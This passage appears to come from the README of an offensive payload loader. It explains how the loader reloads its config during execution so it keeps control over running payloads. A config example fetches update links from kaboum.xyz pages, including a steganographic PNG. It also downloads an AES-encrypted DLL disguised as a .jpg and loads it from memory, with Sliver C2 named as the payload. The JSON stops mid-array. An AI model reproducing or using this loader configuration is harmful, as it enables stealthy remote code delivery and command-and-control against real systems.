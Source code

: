 If payload run in Thread, do an other loop. This permit to reload config during execution of multiple payload Thread ! This give an opportunity to keep the control on the loader and run more payloads !

## Execution workflow

TODO: IMAGE

## Config example

Here, this is the first lines of the config file. The first update configuration link is stored in a HTML page : **gobelin.html** and the second one in **troll.html**.
Then the payload to run is a **DllFromMemory**, (here Sliver C2). As you see, the DLL is downloaded with HTTPS and then decrypted+verified with dataoperation:AES.

```
{
  "update_links": {
    "1": [
      "kaboum.xyz first links",
      {
        "pool_mode": {
          "SIMPLE"
        },
        "pool_links": [
          {
            "HTTP": {
              "url": "https://kaboum.xyz/artdonjon/gobelin.html",
              "dataoperation": [
                "WEBPAGE",
                "BASE64"
              ],
              "sleep": 0,
              "jitt": 0
            }
          },
          {
            "HTTP": {
              "url": "https://kaboum.xyz/artdonjon/troll.png",
              "dataoperation": [
                "STEGANO"
              ],
              "sleep": 0,
              "jitt": 0
            }
          },

  [..]

  "payloads": [
    {
      "DllFromMemory": {
        "link": {
          "HTTP": {
            "url": "https://kaboum.xyz/artdonjon/donjon_dll.jpg",
            "dataoperation": [
              {
                "AES": {
                  "key_bytes": [
                    13,
                    48,
                    30,
                    236,
                    11,
```